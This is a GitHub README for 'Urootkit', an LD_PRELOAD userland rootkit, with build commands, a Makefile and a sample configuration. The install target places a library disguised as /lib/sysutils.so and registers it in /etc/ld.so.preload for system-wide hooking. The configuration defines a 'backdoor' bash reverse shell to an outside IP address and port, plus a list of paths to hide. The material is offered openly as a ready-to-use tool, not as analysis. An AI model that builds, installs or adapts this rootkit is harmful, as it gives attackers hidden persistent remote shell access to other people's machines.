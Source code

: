 # Urootkit
The userland LD_PRELOAD rootkit
Reference: https://github.com/ngn13/cerez

## Make
```shell
apt update && apt install build-essential libconfig-dev

make && make install
```
Makefile:
```shell
SRCS = $(wildcard *.c)
HEADERS = $(wildcard *.h)

dist/loader.so: $(SRCS) $(HEADERS)
	mkdir -p dist
	gcc -shared -fPIC $(SRCS) -o $@ -ldl -lconfig -nostartfiles

install:
	cp uroot.cfg /etc/uroot.cfg
	cp dist/loader.so /lib/sysutils.so 
	echo /lib/sysutils.so > /etc/ld.so.preload
```
## USE
uroot.cfg:
```shell
backdoor = "bash -c 'bash -i >& /dev/tcp/123.249.89.38/50001 0>&1'";

hidden = (  
  { path = "/etc/uroot.cfg" },
  { path = "/tmp/test" }
);
```
- backdoor: is the urootkit will do when the hooked function is runing
- hidden: the path you want to hide
